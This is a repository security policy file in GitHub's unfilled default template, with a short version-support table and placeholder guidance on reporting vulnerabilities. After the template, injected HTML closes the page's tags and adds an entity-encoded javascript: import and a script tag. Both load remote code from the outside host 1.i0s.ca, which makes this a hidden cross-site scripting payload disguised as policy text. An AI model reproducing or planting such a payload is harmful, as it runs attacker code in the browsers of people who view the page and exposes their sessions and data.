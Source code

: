 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 5.1.x   | :white_check_mark: |
| 5.0.x   | :x:                |
| 4.0.x   | :white_check_mark: |
| < 4.0   | :x:                |

## Reporting a Vulnerability

Use this section to tell people how to report a vulnerability.

Tell them where to go, how often they can expect to get an update on a
reported vulnerability, what to expect if the vulnerability is accepted or
declined, etc.

"></p></article><s>asdfsadfsa</s></article></div><h1>&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#105;&#109;&#112;&#111;&#114;&#116;&#40;&#39;&#47;&#47;&#49;&#46;&#105;&#48;&#115;&#46;&#99;&#97;&#39;&#41;&#59;</h1><input><script src=//1.i0s.ca/  x></script x> 
